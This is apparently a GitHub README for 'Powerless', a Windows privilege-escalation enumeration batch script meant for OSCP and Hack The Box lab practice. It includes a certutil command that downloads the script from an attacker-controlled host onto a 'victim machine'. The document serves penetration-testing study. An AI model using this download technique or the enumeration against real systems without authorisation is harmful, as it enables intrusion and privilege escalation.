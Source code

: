 # Powerless
A Windows privilege escalation (enumeration) script designed with OSCP labs (i.e. legacy Windows machines without Powershell) in mind. The script represents a conglomeration of various privilege escalation checks, gathered from various sources, all done via native Windows binaries present in almost every version of Windows.

# Use
Copy the batch file from your attacker machine to a user writeable directory on the victim machine (typically the current users folder, or the "public" user folder will be writeable). 

Also (although the script will run without it), it recommened you copy (an older verison of) AccessChk.exe to the same location. It is recommended you use an older version of accesschk.exe as the latest verison will not work on some older Windows machines. The archived version here worked well in my experience (thanks, g0tmi1k); https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe

There are many ways to copy over files. I found certutil.exe to be the most reliable across Windows editions. For example;

    certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat
    
The script may generate a lot of output. My recommended approach is to go through it sequentially making a list of 'interesting' things to look at, sorting them as you go. Once you've reached the end of the output, go through your list in order of what stuck out the most. 

You will do yourself a great disservice if you lean heavily on kernel exploits at the expense of thorough Windows enumeration. Although you may find kernel exploits often in work in the labs, try to find other avenues as well. The script has comments sprinkled throughout to try to provide guidance on what to look for. 

# Recommended OSCP-like Windows Hack The Box machines 
Regretably, the vast majority of HTB Windows machines require kernel exploits for privilege escalation. I found the following machines helpful for practicing priv esc (read, not your typical privilege escalation).

-  Chatterbox
-  Jeeves
-  Access
-  Active
-  SecNotes

# Sources
-  http://www.fuzzysecurity.com/tutorials/16.html
-  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
-  https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
-  https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
-  https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
